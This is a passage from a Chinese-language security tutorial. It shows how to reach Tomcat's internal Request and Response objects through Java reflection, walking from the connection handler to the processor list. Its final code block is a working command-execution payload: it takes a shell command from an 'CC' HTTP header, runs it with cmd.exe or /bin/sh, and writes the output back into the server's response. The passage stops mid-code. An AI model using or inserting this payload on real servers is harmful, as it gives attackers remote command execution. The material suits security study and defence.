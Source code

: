 ![image-20210622075444742](https://gitee.com/samny/images/raw/master/summersec//9u55er9ec/9u55er9ec.png)

5. 在AbstractEndpoint$Handler是一个接口，其实现类`AbstractProtocol$ConnectionsHanhler`是所需要的Handler。ConnectionsHanhler中是包含`global`字段。

```java
// obj --> org.apche.coyote.AbstractProtocol$ConnectionsHanhler
try {
f = obj.getClass().getSuperclass().getDeclaredField("global");
} catch (NoSuchFieldException e) {
// obj --> AbstractProtocol$ConnectionsHanhler
f = obj.getClass().getDeclaredField("global");
}
```

![image-20210622080307404](https://gitee.com/samny/images/raw/master/summersec//7u03er7ec/7u03er7ec.png)

6. 获取到`RequestGroupInfo`对象，在`RequestGroupInfo`之中有包含`Processor`对象`list`。

```
// obj --> org.apche.coyote.RequestGroupInfo
f.setAccessible(true);
obj = f.get(obj);
f = obj.getClass().getDeclaredField("processors");
f.setAccessible(true);
// processors --> List<RequestInfo>
java.util.List processors = (java.util.List) (f.get(obj));
```

![image-20210622080509210](https://gitee.com/samny/images/raw/master/summersec//9u05er9ec/9u05er9ec.png)

7. 获取到Processor对象之后，接着获取`Request`和`Response`，在然后就是一段读写操作。

```
				 // processors.size() == 1
                for (int j = 0; j < processors.size(); ++j) {
                    Object processor = processors.get(j);
                    f = processor.getClass().getDeclaredField("req");
                    f.setAccessible(true);
                    // org.apche.coyote.Request
                    Object req = f.get(processor);
                    // org.apche.coyote.Response
                    Object resp = req.getClass().getMethod("getResponse", new Class[0]).invoke(req, new Object[0]);
                    // header cc: "cmd"
                    str = (String) req.getClass().getMethod("getHeader", new Class[]{String.class}).invoke(req, new Object[]{"CC"});
                    if (str != null && !str.isEmpty()) {
                        resp.getClass().getMethod("setStatus", new Class[]{int.class}).invoke(resp, new Object[]{new Integer(200)});
                        String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", str} : new String[]{"/bin/sh", "-c", str};
                        String charsetName = System.getProperty("os.name").toLowerCase().contains("window") ? "GBK":"UTF-8";
                        byte[] result = (new java.util.Scanner((new ProcessBuilder(cmds)).start().getInputStream(),charsetName)).useDelimiter("\\A").next().getBytes(charsetName);
                        try {
                            Class cls = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
                            obj = cls.newInstance();
                            cls.getDeclaredMethod("setBytes", new Class[]{byte[].class, int.class, int.class}).invoke(obj, new Object[]{result, new Integer(0), new Integer(result.length)});
                            resp.getClass().getMethod("doWrite", new Class[]{cls}).invoke(resp, new Object[]{obj});
                        } catch (NoSuchMethodException var5) {
                            Class cls = Class.forName("java.nio.ByteBuffer");
```